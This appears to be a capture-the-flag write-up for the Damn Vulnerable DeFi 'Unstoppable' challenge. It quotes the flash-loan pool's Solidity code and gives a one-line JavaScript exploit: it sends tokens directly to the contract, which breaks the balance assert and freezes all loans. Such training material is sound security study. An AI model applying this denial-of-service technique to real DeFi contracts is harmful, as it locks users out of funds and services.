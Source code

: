 # 1 - Unstoppable

{% hint style="info" %}

{% endhint %}

We will break the `assert` statement.

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {
    require(borrowAmount > 0, "Must borrow at least one token");

    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    // Ensured by the protocol via the `depositTokens` function
    assert(poolBalance == balanceBefore); // <- we will break here

    damnValuableToken.transfer(msg.sender, borrowAmount);

    IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);

    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

```solidity
function depositTokens(uint256 amount) external nonReentrant {
    require(amount > 0, "Must deposit at least one token");
    // Transfer token from sender. Sender must have first approved them.
    damnValuableToken.transferFrom(msg.sender, address(this), amount);
    poolBalance = poolBalance + amount;
}
```

`depositTokens` function updates `poolBalance` if you deposited tokens by calling it.

But we can simply transfer tokens to **`UnstoppableLender`** contract by using ERC20 `transfer` function without using `depositTokens`.

## Solution

```javascript
it('Exploit', async function () {
  /** CODE YOUR EXPLOIT HERE */
  await this.token.connect(attacker).transfer(this.pool.address, INITIAL_ATTACKER_TOKEN_BALANCE);
});
```

